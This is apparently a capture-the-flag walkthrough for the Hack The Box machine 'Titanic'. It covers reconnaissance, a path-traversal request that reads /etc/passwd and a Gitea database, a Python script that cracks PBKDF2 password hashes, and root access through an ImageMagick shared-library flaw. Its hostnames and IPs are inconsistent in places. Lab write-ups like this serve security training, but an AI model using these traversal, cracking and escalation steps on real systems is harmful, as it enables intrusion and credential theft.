

VPN 10.10.11.61

1.  INFO: Add IP to hosts file

RUN: sudo nano /etc/hosts

2.  RUN: **nmap -sV -Pn heal.htb**

Result: PORTS FOUND: 22, 80

3.  Add 10.10.11.55 titanic.htb to /etc/hosts file

4.  Activate Foxyproxy in Firefox

5.  Open <http://titanic.htb:80>

- Start Burpsuite, activate INTERCEPT

- Book a ticket on Website (push SUBMIT button)

6.  **Push** **FORWARD**

- Right click -\> **Send to Repeater**

Replace 1^st^ line with: **GET
/download?ticket=../../../../../../etc/passwd HTTP/1.1**

1^st^ line Replaced (Result: see screenshot below)

- Push SEND

Result

USER.txt FLAG

**SUBDOMAIN FUZZ**

1.  RUN: **ffuf -w
    /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
    http://titanic.htb -H \"Host:FUZZ.titanic.htb\" -ac**

> 
>
> Add **dev.titanic.htb** to **/etc/hosts** file

2.  Open [**http://dev.titanic.htb**](http://dev.titanic.htb)

> 

3.  Gitea DB is generally in **/data/gitea.db**

**CRACK PASSWORD**

7.  Replace 1^st^ line with db

Search for USER: developer

8.  Password HASH (**blue highlighted**)

Salt (**red squares**)

9.  **INFO:** Use this script to crack (Target hash + salt) or use
    Hashcat

**Create script.py and put this inside**

import hashlib

import binascii

def pbkdf2_hash(password, salt, iterations=50000, dklen=50):

hash_value = hashlib.pbkdf2_hmac(

\'sha256\',

password.encode(\'utf-8\'),

salt,

iterations,

dklen

)

return hash_value

def find_matching_password(dictionary_file, target_hash, salt,
iterations=50000, dklen=50):

target_hash_bytes = binascii.unhexlify(target_hash)

with open(dictionary_file, \'r\', encoding=\'utf-8\') as file:

count = 0

for line in file:

password = line.strip()

hash_value = pbkdf2_hash(password, salt, iterations, dklen)

count += 1

print(f\"Checking_password {count}: {password}\")

if hash_value == target_hash_bytes:

print(f\"\\nFound password: {password}\")

return password

print(\"Password not found.\")

return None

salt = binascii.unhexlify(\'8bf3e3452b78544f8bee9400d6936d34\')

target_hash =
\'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56\'

dictionary_file = \'/home/kali/Desktop/rockyou.txt\'

find_matching_password(dictionary_file, target_hash, salt)

Should look like this

10. Put Target-hash and salt in the script (lines 30,31)

11. Crack it with script.py RUN: **python3 script.py**

**PASSWORD: 25282528 found for USER: developer**

Password found

**ROOT**

1.  Login with User: **ssh <developer@titanic.htb>** Password:
    **25282528**

2.  You'll find a script under **/opt/scripts**

3.  Find vulnerability: Check version of **magick**

> RUN: **magick -version**
>
> **Source:**
> <https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8>

4.  According to identifiy_image.sh, **libxch.so.1** needs to be
    generated under **/opt/app/static/assets/images**

> **INFO:** This directory can be found, if you run: **find / -writable
> -type d 2\>/dev/null**
>
> 
>
> This causes **magick** (under root permissions) to **read root.txt**

- Put it into a **Python-script**, e.g. **script.py** or paste it
  directly into the terminal, as below.

> 

- List files in directory

- Modify original directory content. E.G. copy a jpg file.

- Check if **libxcb.so.1** and **root flag** is there

- Display **root flag**

